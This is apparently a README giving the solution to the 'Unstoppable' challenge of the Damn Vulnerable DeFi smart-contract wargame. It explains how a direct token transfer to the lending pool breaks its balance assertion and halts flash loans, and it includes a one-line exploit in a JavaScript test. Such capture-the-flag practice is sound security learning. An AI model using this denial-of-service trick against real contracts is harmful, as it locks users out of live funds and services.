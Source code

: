 # DamnVulnerableDefi

## 1. Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```
